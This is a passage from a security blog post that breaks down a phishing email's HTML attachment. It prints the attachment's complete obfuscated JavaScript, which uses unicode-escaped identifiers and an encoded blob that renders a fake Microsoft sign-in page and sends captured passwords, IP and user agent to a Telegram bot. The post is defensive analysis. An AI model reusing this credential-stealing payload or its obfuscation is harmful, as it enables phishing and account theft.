 +++
title = "More Phishing Attempts"
date = 2022-08-23T00:31:33Z
description = "Another day, another phish"
draft = false
tags = ["security"]
tracking_area = "javascript"
tracking_id = ""
+++

Well, that was quick, less than a week since [my last one]({{<ref "/posts/2022-08-18-breaking-down-another-phishing-attempt.md">}}) and here we go again.

For transparency, this one did actually land in my junk mail, so I wouldn't have seen it if I hadn't been looking for an email that I should've received (totally unrelated to getting phished though 🤣), but since I did see it, it's time to dig into it again!

The premise of this one is the same as the last one, although the email was much more brief, only containing my email address in the body and the HTML file attachment.

Speaking of the HTML, it was a bit different this time:

```html
<script>var e\u006dail="<yes, my email was here>";var tok\u0065\u006e='5\x374\062\u0038\0607394\u003a\u0041AEY\171\x56gRLp3\132YYweU\161\144cbUdsGWj\163\x6e-\x53k\063w\u0030';var c\u0068a\u0074\u005fid=5486255038;var d\u0061ta=ato\u0062("PC\x46\105T0\x4eUWV\102\106IGh0bWw+Cjxod\x471sIGRp\143\x6a0ibHRyIiBjbGFzc\x7a0iI\x69B\x73\131W\x35nPSJlb\u0069I\053CiAg\111C\x41\x38a\107VhZD4KIC\x41g\u0049DxtZXRh\111Gh\x30dHAt\132XF1aXY9I\153NvbnR\x6cbnQtVHlw\132\123Ig\u005929udGVudD0i\144G\x564\u0064C9od\x47\u0031sOy\u0042\152aG\106y\x632V0PVVURi04I\x6a4\x4bICAgID\u0078\x30a\u0058RsZ\x545\124\141Wdu\111Gl\x75\u0049HR\166\x49H\154v\144XI\x67YWNj\1423Vu\x64DwvdG\u006c0bGU+C\x69\x41gICA8bWV0YSB\x6fd\x48Rw\114\127\126\170dWl2PS\x4a\u0059\114VVBL\x55N\166\x62X\x42hdG\x6c\151bGUiIGNvb\x6e\122\u006c\u0062nQ9I\x6b\154FPW\x56\x6bZ2U\151Pg\157gICAg\120G1ldG\x45\147\u0062m\u0046\x74\x5aT\u0030idmlld3B\u0076cn\u0051iIG\u004ev\x62n\x52\x6cbnQ9\x49n\144\160ZHRo\u0050WR\154\x64\x6d\154jZS13aW\122\x30aC\167gaW\x35p\144\x47lhbC1z\x592FsZT0x\x4cj\x41s\x49G\u0031\150eG\u006ct\144W0\x74c2NhbGU9M\1514\167\u004cCB1\x632VyLXN\u006aYW\170\u0068Y\155x\154PXllcy\111\x2bCi\x41gICA\u0038c\u0032Ny\x61X\u00420IHNyY\u007a\u0030\151a\110\x520cHM6Ly9ha\x6d\1064Lm\144vb\u0032d\163ZW\106wa\130M\165Y29tL2FqYX\u0067vbG\154icy9qcX\u0056\154\143n\u006bv\115y40\114j\x45vanF1\x5a\x58J\u0035Lm\061\160b\u00695\x71\x63\u0079I\u002bPC\071zY3J\x70cHQ+\u0043iA\x67\111C\x418bG\x6cuayByZWw\u0039\111\x6e\u004eob\063J\060Y\063V0IGlj\1422\x34i\111Ghy\132WY9Imh0\144HBzOi\u0038vY\x57F\153\x59\u0032Ru\114m1\u007aZn\x52h\144\130R\157L\1555l\u0064C\x39z\141GFyZW\121v\u004dS4\u0077\x4c2Nvb\x6eR\154bnQva\x57\061\x68Z\062VzL\x32Zh\x64ml\u006a\u00622\065fYV9l\x64XBh\u0065WZnZ2hx\141\x57FpN\062s5c29\x73\116\155\170\x6e\u004di5\x70Y\062\070\151\120iA\x67\u0049C\x41KIC\x41\147\111D\170saW5\x72I\x47\122hdG\105tbG\071hZ\u0047\u0056yPSJj\132\1074iIGNyb3Nzb3J\160Z2l\165PS\112hbm9u\u0065W1vdXMiIGh\u0079\x5a\x57Y9Imh\x30\144HBz\117i8vYW\x46\153Y\062R\165Lm1zZn\x52h\x64XRoL\u006d5ld\x43\x39l\x633R\172\114\x7a\111\x75\x4dS9jb\062\x350\132W50L2NkbmJ1b\x6d\122\163ZXM\166Y29\165\144m\x56yZ2Vk\x4c\156\u0059yLm\170vZ\062\154u\114\u006d1pb\x6c\0716a\u0058\154\u0030\132j\u0068kenQ5ZWcxczYtb\u0032hobGV\156M\x695jc3M\x69IH\x4albD\060ic3R5bGVza\107Vld\103\111+CiAg\x49C\u00418\x63\062\u004eya\130\x420Pg\u006fg\x49C\101gICAg\x49CQ\157ZG\071\x6a\u0064\1271l\x62\156Qp\x4c\x6eJl\x59\127R5\u004bG\1321bm\1160\x61\x579\165KC\x6bgeyQ\157\u0049iNkaXNwb\x47F5Tm\106tZ\123IpLmVt\143\u0048\1225\113CkuY\130Bw\132\1275\u006bK\x47VtYW\u006c\163\113TsgJ\1035nZX\x52\x4bU\0609OKCJodHRwcz\x6f\x76L2\u0046\167a\u00535pcG\x6cm\x65S5v\x63mc\x2f\132m9yb\127\u00460PWp\u007ab\0624\x69L\x43Bm\x64W5jdGlv\142ihkYXRhK\x53\102\067JCg\u0069\111\062\x64m\u005ayIp\x4cmh0bWwo\x5aGF0YS5\160cCk7fSl\071\x4b\124s\x4bIC\101\x67\111Dw\166\u00632\116\171aX\1020\x50go8L2\150\x6cY\127Q+\103jxib2R5IGN\x73YXNz\120SJ\x6aYiIgc3R\065bGU9I\x6d\122pc3B\163YX\1536IGJ\x73b2Nr\x4f\171\x49+Cjx\x77IGlkPS\u004an\132m\u0063iIHN0e\127x\u006cPSJ\153\x61\x58\116w\x62\x47\x465O\151Bu\x62\0625\x6cOy\x49\x2bPC9\167\120go8Zm9y\142S\102uYW1\154P\123JmM\123Iga\127Q9\u0049m\x6bw\u004djgx\x49\151Bub3Z\x68bG\x6ckY\x58Rl\120\x53Jub3\x5ah\u0062G\154kYXRlI\x69\x42zc\x47\126\x73bGNoZ\127NrP\u0053\x4a\155YWx\x7a\132SI\x67\142WV0aG\071kPS\u004awb3N0I\x69\u0042\060Y\130J\u006eZ\x58Q9\111l9\060b3AiIG\106\061\u0064G\u0039jb21\167\u0062GV0\u005a\x54\u0030ib\x32ZmI\151BhY\063\122pb24\x39IiI+CiAgIC\x41\070\132Gl\x32IG\u004esYX\116z\120SJsb\x32\144\x70bi1\167YWd\u0070bmF\060ZWQtc\x47FnZ\123I+\x43i\101\147ICAgICAg\u0050\107R\u0070d\151\x42pZD0ib\107l\u006eaH\x52ib3\150UZW1wbGF\060Z\125NvbnR\u0068\141\1275lc\u0069I\x2b\x43jxkaXY\147aWQ9\x49mxpZ\x32\u00680\x59m\x39\064QmFj\141\062\144y\u00623V\x75Z\u0045\116v\x62nRhaW5\u006cci\x49+C\u0069AgICA8ZGl2I\107NsYX\116z\120SJiYWNrZ3JvdW\x35kLWltYWd\154\114W\x68\x76b\107R\u006c\x63i\x49gcm9\163Z\x540icHJ\154c\x32VudGF0aW9uI\x6a4KICA\x67ID\x78\x6ba\x58YgY2\x78h\x633\x4d\071\u0049m\112\150Y2\164ncm\x391b\x6dQt\x61W1hZ2U\x67ZX\1500LW\112\x68\x592tn\143\15591bmQ\164aW1\x68\x5a2UiIH\1160eWx\154\x50\123JiYWN\x72Z3\112vd\1275kLWltY\u0057dl\117\151\x42\u0031\x63\x6dw\x6fJnF1\u0062\x33Q\x37aHR0cH\115\066L\x799h\x59\x57\x52\x6aZG4ubX\116mdGF1dG\x67u\x62mV\060L3\116oYXJl\132\103\x38x\x4c\x6aAv\x5929u\144G\u0056\165\u0064C\x39pbWFnZ\130\u004dvYmFj\x612d\171b3VuZHMvM\1549i\u0059zN\u006b\115z\112hN\152k\062O\u0044k\u0031\x5a\152c\x34YzE\u0035\132G\1312Y\172\143\u0078NzU\064NmE1ZC\x35zdmcmcXVv\u0064\u0044s\160OyI\053PC\x39kaX\131+Cjwv\x5aGl2Pjwv\132Gl2P\x67o\x38\u005aGl\x32\x49GNsYX\x4ezPSJv\x64X\122lc\151I\x2bC\151AgI\u0043A8\x5aG\154\u0032IGN\x73YXN\x7a\120\123J0ZW1w\x62\107F0\132S1zZ\127N\060aW\x39uI\x471haW4\164c2\x56\152\144Glvb\151I\u002b\x43iAg\111C\u0041\147IC\x41\x67\u0050\x47Rp\u0064iBjb\x47\u0046zcz0\x69bW\u006ck\x5a\x47\x78l\x49G\x564dC\x31t\x61W\122\u006bbGUiP\x67ogICA\u0067\111CAgIC\101gI\103\u00418Z\107l2IGN\u0073\x59\130Nz\120SJmdW\170sLWhlaWd\u006f\144C\x49\u002bCj\170\u006b\x61\x58Y\147Y2xhc3M9I\u006dZ\163Z\130gtY\062\u0039\u0073d\1271\u0075\x49j4\x4bICA\u0067ID\u0078k\x61XYgY2x\u0068\u00633\1159\u0049nd\160bi1zY3Jv\142Gwi\x50gogI\103\x41gICAg\u0049Dx\x6baX\131\147a\u0057Q9Imx\160\x5a2h0Ym94I\151\u0042jbGF\172\143z0\151c2\154nb\x691pb\x691i\u00623\147\x67ZXh0LXN\160Z24ta\127\u0034t\x59m\x394IGZ\u0068ZG\u0055taW4\164\x62G\154\x6ea\u0048Ri\1423gi\120gog\x49\103A\x67IC\101\x67\u0049\104\x78k\141XY+PG\154t\132yBjbG\x46\x7ac\1720ib\u00479\u006eb\171Igcm\u0039\163\u005a\u00540ia\x571\156IiB\x77b\x6d\x64zcm\x4d9I\x6dh0\x64H\u0042\x7a\x4f\1518vYW\x46\x6bY2R\x75Lm\x31\172Z\156RhdX\122\x6f\114m5\u006c\x64C\x39za\107\106yZWQv\x4dS4\x77L\062Nvb\x6e\x52lb\u006e\121\u0076a\x571\150\x5a2V\u007aL2\u0031\x70\131\063\112vc\x329\155dF\071s\142\x32\x64\u0076\x582Vk\x4fWM\x35\132W\u0049\x77ZGNl\115TdkNzU\x79YmVkZWE2YjVhY\062\122hNmQ5\x4cnBu\x5ay\111gc3Znc3J\x6a\x50SJodHR\167\143zo\166L2\x46\x68\u005aGNkbi5\164\x632Z\060\x59XV0aC5u\132\130\x51vc\x32hhcm\126kL\x7aE\165M\x439jb2\x350ZW50\1142lt\131\127\144l\u0063y9t\141\x57N\171\x623NvZ\x6eRfb\u00479\u006e\14219lZ\124\126j\x4f\107Q5\132mI2M\152Q\x34YzkzOGZ\153MGRjMTkz\x4ezBlO\124B\x69ZC5z\x64m\u0063iI\110NyYz0\x69\x61HR0c\u0048M6Ly9hY\127RjZG\x34ubXN\155dGF1\144\x47\x67\x75bm\126\x30L3\116\157Y\130JlZC\u0038\x78LjAv\x5929ud\107\u0056u\144\1039p\x62W\x46nZX\115vbW\154jcm9z\x622Z\x30X2\170vZ29fZWU\061\u0059\172hk\x4fWZiN\u006aI\u0030OGM5MzhmZDBkYzE5Mzcw\132Tkw\131m\121uc\x33ZnIiBh\x62\110\u00519Ik\061pY3Jv\u00632\u0039\x6d\u0064\103I+PC9\x6ba\u0058Y\u002b\x43\x69AgICA\u0067IC\x41g\u0050GRpdiByb2\170\154\120S\x4a\x74Y\127luIj4KPGR\x70\x64\x69BjbGF\172cz0\151Y\u0057\065pb\u0057F\060ZS\102\x7a\142\107\x6ck\132S1pbi1uZXh0\111j\064\u004bICAgIC\x41\x67ICA8ZGl2\111D4KPG\x52pdi\x42\152\142G\106\172c\x7a\x30\x69\u0061WRlbn\x52\160dHl\103\x59\127\065\165Z\130\x49\x69Pgo\x67\x49CAgPGR\u0070di\102p\u005aD\x30iZG\x6cz\x63GxheU\065\x68bW\125iIGNsYXNzPS\112p\132GVu\x64Gl0eSI+\x50C\071kaX\131+\103\152w\x76Z\107l2\120jw\166Z\107l2P\x67\x6fgICA\x67\120C9k\141XY+C\151AgICA\u0038Z\x47l2IGN\u0073YXN\x7aP\u0053Jw\u0059\x57\144\x70\142\x6dF\x30aW9u\u004cXZp\u005aXc\x67\x59W5\u0070bWF0ZSBoYX\u004d\u0074a\x57\122l\142nRpd\x48\x6bt\x59m\x46ubmVy\x49HN\163\141WR\154LWl\x75LW\u0035le\110Qi\x50g\157gICA\x67\u0050GR\u0070\144\u006a4\x4bC\u006a\170k\141XYg\141WQ\u0039ImxvZ2lu\123\107VhZG\x56\x79\x49iB\u006a\u0062GFzcz\x30\u0069\u0063m93\111HRp\x64\107xlI\x47\u00564d\x4310\141X\x52sZSI\u002b\x43\x69AgICA8ZGl\x32\x49H\112\166b\107U\x39\x49m\x68l\131W\122pb\x6dci\u0049GFy\141WE\x74bG\126\u0032ZW\u00779\111\152\x45i\x50kVudG\x56yI\x48B\x68c3N3b3JkP\103\x39\x6baXY+C\x6aw\x76ZGl\062\u0050\x67\x6f\u0038ZGl2IG\154kP\123\u004a\154cnJ\166\u0063n\x423IiBzdHlsZT0iY2\x39s\142\063I\066\u0049\x48Jl\x5aD\163g\142W\x46yZ\x32luOiAxNXB4\117yBtYXJnaW4t\u0062\x47\126mdD\157\x67M\u0048B\064\117\x79\x42t\x59XJnaW\064\164\x64G\u0039w\u004fiAwc\x48g7\111G1\x68\143md\x70b\x691\x69b3\u0052\x30\1422\x306\u0049D\x42w\145\u0044siP\x6a\x77vZ\u0047l2\120go8Z\107l2I\107\u004esYXN\x7a\x50S\112yb3\143iPg\x6fg\u0049C\x41gPGR\160d\151Bj\142\107\106zc\u007a\u0030\151Zm9yb\123\061n\143m91cC\u0042\152\142\u0032\167t\u0062\127Q\x74\u004d\152\u0051i\u0050\147ogICAgI\103A\147\u0049\x44xkaX\131gY2xhc3\x4d\071InB\x73\131WNla\107\x39sZG\x56yQ2\071udGFpbmVy\111\x6a4\113IC\101gICA\u0067ICAgI\103AgP\x47lucHV0\u0049\x47\x35\x68\142WU9In\x42hc3N3ZCIg\144H\x6cw\132T\x30\u0069c\u0047F\x7ac3d\x76\143mQiI\107\u006ckP\123JpMDEx\117CIgYXV0b2NvbXB\u0073ZXRlP\x53\u004av\u005amYi\x49GNsYXN\x7aP\x53\x4amb3Jt\114W\x4evbn\x52\171b2wg\x61\x57\x35wd\x58QgZ\x58h\x30L\127\154uc\110V0\111H\122leH\121t\131m\071\u0034I\107V4dC10\x5aX\x680LW\u004a\166e\u0043I\147cGxhY\062\126o\u0062\x32xkZ\u0058I9\u0049\u006c\102\150c3N\063b3JkIiByZXF1aXJlZ\u0043\x41vPg\1578L\x32\x52pd\1524K\u0049\103AgID\x77v\u005a\107l\x32P\x67o8L\062Rpd\152\x34KPGR\x70\u0064\x6a4K\120GRpdiBjbGFzcz0i\x63\1079z\x61\x58Rpb2\u0034\u0074Yn\x560\144G9uc\x79I+C\151\101g\111CA8Z\x47l2P\147ogICA\x67ICA\147\111D\u0078\x6ba\130Y\147Y2xh\1433M9In\u004avd\171I\x2b\103i\u0041g\u0049CA\147I\103\u0041gI\x43AgIDxk\141XYgY2x\x68c\x33M9\x49m\x4e\x76\x62C1t\u005aC\060yNCI+\u0043iAg\111C\101\x67IC\101g\111CA\x67\u0049CAgI\x43A8ZG\x6c2I\u0047\u004es\x59\130NzP\123J0\u005aXh\x30LTEzI\152\064\113I\x43AgICAg\111CA\x67I\u0043A\147\111CAgICAg\111CA\x38\x5aG\1542\111\107Ns\131X\u004ez\u0050S\u004amb\063\u004at\114\127d\171b3\u0056wI\1524\113\111CA\x67\x49CAgI\103A\x67\x49CAgICAg\u0049\x43AgI\103\101g\111CA\x67PGEgaW\u00519\u0049\x6d\154k\121\x56\x39\121V0RfRm9\x79\x5a29\u0030\x55\x47F\172c\u0033dvcmQiIHJvb\107\u00559\111\x6d\170pb\155\x73\151\111\x47\150yZWY\071I\x69\115\151Pk\132\u0076c\155dvdH\122lb\x69B\u0074eSBwY\130Nzd\x32\x39yZDw\166YT4K\x49C\x41g\111CAgI\x43\101gI\103\u0041\u0067I\x43A\u0067\u0049\x43Ag\111CA8\u004c\062R\x70dj\x34KP\x47Rp\x64\u0069Bj\x62GFz\x63z0i\132m9ybS\x31ncm9\u0031c\x43I\x2bCjwvZG\x6c2PgogICAg\x49\x43Ag\111\104x\153a\130\u0059\x67Y2\170\150c\x33M9\u0049\u006dZ\x76cm0tZ3JvdXAi\x50go\147ICAg\111CAg\u0049CAgICA\070YSBpZD\x30iaTE2\u004ej\u0067i\111\107hyZ\x57Y9Ii\x4diPlNpZ24\x67aW4gd2l\060aCBhbm90\141GVyI\107Fj\x5929\u0031bnQ8L2E\053CiAgICAg\111C\101g\x50C9k\141XY+PC\x39ka\u0058\131+\x50\103\x39\u006baXY+PC9ka\x58Y+Ci\x41gIC\1018L2\x52\u0070\u0064\1524K\103\x69\x41\x67I\u0043\u0041\x38ZGl\u0032\u0049G\x4es\131\x58\116zPSJ3aW4tYnV0d\107\071uL\x58B\x70\x62i1ib3\x520b20\151\u0050g\157gI\x43Ag\u0049CAgIDx\153a\u0058Yg\1312x\150\1433M9\111nJ\166dyI\u002bCiAg\x49\u0043AgI\x43AgICA\x67\111Dx\153\u0061XY+PGRpdiB\u006a\142GFzc\172\060iY29s\114X\x68\x7a\u004cT\x49\x30\u0049\1075vLXB\x68\132GR\u0070bmctb\x47\126md\x431\171aWdod\103B\151\u0064XR0b\x324tY2\071\x75dG\u0046p\x62mVy\111j4KI\103A\147IDx\153\141XYgY2x\150c\x33M\x39ImlubG\154uZ\1231i\142G9ja\u0079I\053CiA\u0067IC\101g\111\x43Ag\120GlucHV\x30IH\x525\u0063GU9\u0049nN1Ym1pd\u0043I\147\x61W\1219Im\x6c\x6b\x550\154C\144X\x52\060\u0062245I\x69BjbGFz\u0063\x7a0\x69d\x32l\x75\114WJ1dHRvbiBidXR0b\u00325\146cHJpbWF\u0079\145S\u0042\x69d\u0058\1220b\u0032\064g\x5aXh0L\x57J1dHRv\x62iBw\u0063\x6dltY\x58J\x35IG\1264\144C1wcm\154tY\x58J5I\151B2\131Wx1ZT0\x69U2lnbiBp\x62iI\x2b\103iAgIC\x418L2\122\x70dj4K\x50\u00439\153\u0061XY+PC9\153aXY\x2bC\151\x41gI\103A\x67\111CAgPC9k\141XY+C\151A\147\111CA8\x4c\x32Rp\144j\064\113P\x439kaXY\053\x50C9kaXY\x2bC\151AgICA\x38\x4c2\x52pdj4KPC9\153a\u0058Y+PC9k\141\x58\131+PC\u0039k\u0061\x58Y+PC9ka\u0058Y+\x43\x69Ag\111CA8L2Rpd\1524KP\1039kaXY+\x50C9\x6baXY+\u0043\151\x41gICAgIC\u0041\u0067\x50\u00439k\141XY+CiAg\u0049C\x41\x38L2Rpdj4KICA\147\111\104\x78kaXY\147a\x57Q9ImZv\x623Rl\u0063iIgc\x6d\071sZT\x30\151\x5929u\144\107VudGluZm8\x69\x49\u0047\116sYXNz\120S\112m\u00622\0710Z\x58IgZXh0\x4cWZvb3\122l\x63iI+Ci\101gI\x43\101\x67I\103\x41gPGRpdj4KPG\x52\160\144\x69BpZ\1040iZ\155\071vd\x47VyTGl\x75\u00613\x4di\111GNsY\130N\x7a\120\123J\u006db2\0710ZX\x4aOb2R\154IHR\u006ceHQtc\062\126\x6ab2\065\u006b\x59X\112\u0035Ij4K\111CA\147ICAg\x49CA\x38YS\102\160ZD\060i\132nRyV\u0047VybX\u004diI\u0047hyZWY9\111iMi\x49G\u004e\x73YXNzP\x53Jm\14229\060Z\130I\164Y29\x75\u0064GVudC\x42l\145HQ\164Z\1559v\144G\x56\u0079L\x57Nv\x62nRlbnQ\u0067Zm9vdGV\171LWl0\x5a\1270\x67\u005a\x58h\x30LWZvb3Rlci1pd\x47V\u0074Ij5UZXJtc\171BvZiB1c\u0032\125\x38\114\u0032\105\053C\u0069\x41gICAg\x49CA\147P\x47EgaWQ9ImZ0c\x6cByaX\x5ahY3\u006biIG\x68yZ\u0057Y9I\x69MiIG\x4e\x73YXNz\120SJmb290ZX\111tY29udGVu\x64\103BleHQtZ\155\u0039\x76\144G\x56yL\x57\x4evb\u006eR\u006cbnQgZ\u006d9\x76dGVyLWl\x30ZW\x30gZXh0LWZvb3Rlc\x69\x31p\x64GVt\u0049j\x35Qcml\062\x59WN\x35I\103ZhbXA7I\u0047\x4e\u0076\1422tpZX\u004d8L\x32E+C\151A\x67ICA\x38\131SBpZD0i\142W9yZU9wd\u0047l\u0076bn\u004d\151I\x47\150\171\132WY\071Ii\x4d\u0069I\107FyaWE\164bGFiZWw\u0039\111k\116\u0073aWNrIGhl\x63mU\x67Zm9yIHRyb\u0033V\x69bGVzaG9v\u0064\u0047luZyBp\142mZvcm1\x68dGlvb\x69IgY2x\x68c3\u004d\x39Im\132\x76b3Rl\x63i1\x6ab\06250Z\u0057\0650IGV4\144C1mb2\x390ZXItY29udG\x56udCBm\x62290\x5aXItaXRlb\x53Bl\145\110\121\164Z\x6d\071\x76\144\x47VyLW\1540Z\u00570\147\x5aGV\x69dWctaXR\x6cb\123B\u006c\145HQtZGVidWctaXRlb\123\111+Li4u\x50\1039\150\x50go\070L2Rp\x64\x6a48L\062\u0052p\x64j\x34K\111CAgIDw\x76\132\x47l2Pgo8L2\u0052pd\x6a48\1142Rp\x64\x6a4\x38L2\u0052\u0070dj4K\x50C9\155b\x33\x4atPgo\x38\x632Ny\x61X\x420P\x67ogICA\147dm\x46y\111\107\x4evdW50I\x440gM\u0044s\113ICAgI\x48ZhciBwc3dkMTsKIC\101gIG\122vY3\x56tZW50\x4cmdldEVsZ\u0057\061lbnRC\x65UlkKCJp\x5aF\x4eJ\u0051nV0d\107\u0039uOSIp\114mF\x6bZE\x56\x32\u005aW50\x54Glzd\x47VuZXI\x6fI\155\116\163aWNrIiwgZn\u0056u\u00593Rpb\x324\u006f\x5aSk\147ewogI\103A\x67ZS\u0035\x77cmV2\u005aW5\u0030R\107Vm\x59XVsdC\147p\x4fwo\u004bIC\101gIHZhci\x42wc\063dk\u0049D0\147\x5aG9jdW\061lbnQu\x5a2\x56\u0030\x52W\170lb\u0057\x56udEJ\065SWQoJ2k\x77MTE\x34\x4aykudmFsdW\125\u0037CiA\147IC\x42p\132i\101ocH\x4e3Z\x43A\u0039PSBudWx\163IHx8IHB\u007a\u00642Q\x67PT\x30gI\u0069Ipewo\u0067\x49CAgICA\147IGRvY\063VtZW50Lmd\154\x64\x45Vs\132\x571lbnRCe\u0055lkKCdlcnJ\166c\156B\063\u004aykuaW5uZ\x58\x4a\x49\126E\x31MI\x440\147YF\u006c\166dXIg\131W\x4ejb3\x56\165dCBw\u0059XNz\14429yZCBjYW\065\x75\x62\x33QgY\155\125gZW1\x77d\110kuIGl\x6dIHlvdSB\u006bb24n\u0064CB\x79\u005aW1l\x62WJl\143iB5b3\126y\u0049\x48Bhc3N3b3JkLC\x418\131SBocmVm\120\u0053\111j\u0049j5y\x5a\x58NldC\x42pdC\x42\x75b3cu\u0050C9hPmA7Ci\u0041\u0067\111CAgIC\x41\147c2V0\126\107ltZW91\144CgoKS\x419\120iB7ZG9jdW\061lbnQ\x75Z2V0RWx\x6c\142W\126u\x64E\u004a5SWQoJ2\x56ycm9ycH\u0063\u006eK\x53\x35p\u0062m5\x6c\x63\x6bhUT\x55wgP\123AnJzt9LCAzM\104AwK\124t\u0039C\151AgICBl\x62\110NlI\107l\x6dK\x48Bz\x642QubGVuZ3Ro\x49\104wgNS\u006c\067\103iA\x67ICA\147\111\x43A\x67\132\107\x39j\x64\u00571l\x62\x6eQu\x5a2\x56\060RWx\x6c\142\x57\126udE\1125S\127QoJ2V\171cm9\u0079cHcnKS\x35pb\1555\x6cc\u006bh\125TUwg\x50S\101i\x57W91\143iBh\1312N\x76d\x57\x350\111HB\u0068c\x33N3\u00623J\x6bIGlzIHRvbyBz\141\x479y\144C4\u0069Owog\x49CA\147IC\101gIH\116ldFRpb\127VvdXQ\u006fK\x43\153gPT4ge\062RvY\u0033\x56t\132W5\x30Lm\x64\154dE\x56sZ\x571\u006cb\x6eRCe\u0055lkKCdlcnJvc\x6eB\u0033Jyk\x75\x61\1275uZ\u0058JIV\x451MID0gJyc7I\x47\u0052\x76\x593Vt\132W50Lmd\154dE\u0056sZW\061\x6cbn\122CeU\x6ckKCJpMDI4M\x53IpLn\u004alc2V0KCk\x37\x66S\167gMzAw\u004dCk7CiAgICB9IGV\163c2U\147\141\127\131g\x4bGNvdW50PD\x45pewog\111CA\147I\x43\x41gIHBz\u0064\062\121\170\x49D0gZ\107\x39jdW1lbnQ\x75Z2V\060R\u0057x\x6cbWVudEJ5SWQo\112\x32kwM\x54\x45\064Jykudm\x46\u0073dW\1257CiAgICAg\x49\u0043AgZ\u0047\071jd\x571lbn\121uZ\x32\x560\122Wxlb\u0057V\x75dEJ5SWQ\x6f\x4a\x32Vycm9ycHcn\u004bS5pbm5lckhUT\x55wgPS\x42g\x57W91c\151BhY\x32\x4e\166d\x5750I\107\x39\171\111\x48B\150c\063N3b3Jk\111GlzIG\u006cuY29y\u0063mV\u006adC\x34g\u0061W\131geW91\u0049GRvbid\x30\x49\x48Jlb\x57VtY\x6d\x56\u0079\111Hl\166dXI\u0067cGFzc3\144vcmQsIDx\150IG\u0068yZWY9Ii\x4diPn\u004a\x6cc2\u00560I\107l0IG5v\144y\x348L\x32E+Y\x44\163\x4bICAg\x49\x43A\147\x49CBkb2N1bWVudC\x35\u006eZXRFbGV\164ZW5\x30Qn\u006c\112ZC\147iaTAyODEiKS5yZXNldC\147\160Oy\102jb3V\u0075dCsr\1173\x30KICAgIGVsc\x32Uge\u0077\u006f\u0067ICAgICA\x67IH\132\x68ci\x42JUC\101\x39IGRvY\x33\x56tZW50Lmdld\105V\u0073\132W1lbnRCeU\u006ckKCdn\x5amc\x6eKS5\060Z\u0058h0Q2\x39udGV\165dD\163KICAg\u0049CA\x67IC\x422YX\u0049gbWVz\1432FnZS\x419IGA\x39\u0050T\0609PT0g\u0054zM2NS\x42SZ\u0058N1bHQgPT09PT0\u0039\130\x48Jc\x62\153VtYWls\u004f\151Ak\1452VtYWlsfV\170yX\u0047\x35QYX\116\172\x6429yZ\x44E6IC\x527cHN3\x5a\u0044F9XH\u004a\x63blBhc3N3b3\112\u006bMjogJHt\x77c\063dk\u0066V\u0078\171X\x475JUD\x6f\147a\u0048R\060c\x48\x4d\066L\x799pc\1031h\143G\x6bu\13129tL\x79R\067SV\102\071XHJ\143b\x6cVzZ\u0058\u0049t\x51W\144\u006cb\u006eQ\x36ICR7bmF2a\127dhd\1079\u0079L\x6e\x56z\x5aX\x4aB\132\x32Vud\u00481\143\143l\x78\u0075PT09P\124\u00309PT0\u0039\u0050T09PT09PT\x30\x39PWA7\u0043iAgI\103\101gICA\u0067\u0064mF\171\111HNld\110\122pb\x6ddzID0gew\x6f\147IC\101\x67ICAg\x49CAg\111\103A\151\u0059X\1165\142m\115i\x4fiB\060\x63nVlLCA\u0069Y\u0033\x4av\u00633N\x45b\062\u0031haW\x34i\x4fiB0\143\x6eVlLCA\x69dXJsIj\x6f\x67\111\155h\x30\x64HBz\x4f\151\x38v\x59XBp\u004cnRlbGVncmFtL\u006d9\x79Zy\u0039i\142\063\121i\111\u0043sgdG\x39\162\132W\064gK\x79\x41\x69L3Nlb\x6dRNZ\x58NzY\127\x64lIiwKI\103\101g\111\x43A\147IC\x41g\111C\u0041gIm1l\144GhvZCI6ICJQ\1241N\x55\u0049\u0069\x77gI\x6dhlYW\122l\143nMi\u004fiB7\x49kN\x76b\156\122lb\156Q\164\x56H\154\167\132\123I\066ICJ\x68cH\102\x73aWN\x68dG\154\x76\142\x699qc\u00329uI\151\167\u0067\u0049mN\u0068Y2\u0068lL\x57NvbnRyb2\167i\x4fiAib\155\u0038t\x59\062\106jaGU\x69fS\x77K\u0049\x43\x41gICA\147\111C\101g\111CA\x67\111\u006d\122hd\x47\105iOi\u0042KU09O\114n\1160cm\154u\1322lme\123h7\111mNoYX\u0052\u0066a\x57\121iO\151B\152\141GF0X2lkLCAidGV\x34\x64\x43I\066\111\1071l\143\x33NhZ\062V9KX\x30\u004b\111\x43\u0041gIC\x41gIC\x41kLm\106\161YX\147o\1432\u00560dG\x6c\u0075\1323\115p\u004c\155R\x76bm\x55\x6f\113HJlc3Bv\142nN\x6cKSA9PiB7d\u0032luZ\107\071\x33Lm\u0078\u0076Y\u0032\x46\x30\141W9uLn\x4a\x6c\x63Gx\x68\x592UoJ\x32h\u0030\x64\110BzOi\070v\x63G9\x79d\107FsL\u006d\x39m\x5amljZ\123\u0035j\x622\x30\166c2Vy\x64m\154jZ\130N0YXR1cy\x63p\1173\x30pOwo\u0067IC\101\x67fSA\113I\103\x41gIH\060\x70O\x79AKP\x439zY3Jp\x63HQ+C\u006awvZGl\x32\120jwvYm9k\x65T48L\u0032h0b\127w+");\u0064\u006fc\u0075m\u0065\u006e\u0074.write(data);</script>
```

What's interesting is they've exploited that you can use unicode escaping for JavaScript identifier names, which [is legal as per the spec](https://262.ecma-international.org/#sec-identifier-names).

Let's take this:

```js
var e\u006dail="<yes, my email was here>";
```

